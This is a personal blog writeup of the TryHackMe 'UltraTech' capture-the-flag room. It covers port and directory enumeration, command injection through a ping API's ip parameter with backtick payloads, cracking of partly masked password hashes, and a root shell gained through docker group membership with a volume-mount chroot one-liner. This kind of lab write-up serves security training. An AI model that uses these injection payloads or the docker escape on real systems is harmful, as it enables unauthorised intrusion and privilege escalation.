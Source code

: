 ```yaml
---
layout: default
title : UltraTech - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Oct 06, 2020**_

[UltraTech](https://tryhackme.com/room/ultratech1) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories Brute Forcing :

```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
```
```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 15078, Words: 11, Lines: 7]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
```
In /robots.txt we found this :
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Goin to `/utech_sitemap.txt` give us this :
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
```js
 function checkAPIStatus() {
        const req = new XMLHttpRequest();
        try {
            const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
            req.open('GET', url, true);
            req.onload = function (e) {
                if (req.readyState === 4) {
                    if (req.status === 200) {
                        console.log('The api seems to be running')

```
I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
```
PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms

--- 10.10.180.145 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```
I tried to execute other commands and it worked :
```
http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
ping: www: Temporary failure in name resolution 

http://10.10.180.145:8081/ping?ip=10.10.180.145%20`ls`
ping: utech.db.sqlite: Name or service not known 
```

That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
```
r00t : f357a0c******63c7c7b76c1e7543a32 : n****06 
admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy 
```

When we login we get this : 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

## Internal Enum :

Since we have `r00t` credentials, Let's login to SSH.

After running id looks like we are in a docker :
```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) : 
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This command won't work because there is no image named alphinen but we do have bash as image :
```
r00t@ultratech-prod:/tmp$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
aee9902a5c43        495d6437fc1e        "docker-entrypoint.s…"   19 minutes ago      Up 17 minutes                                    cocky_goodall
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
```
Executing this command give us root :
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
root@41ff56823b91:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@41ff56823b91:/#
```

Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
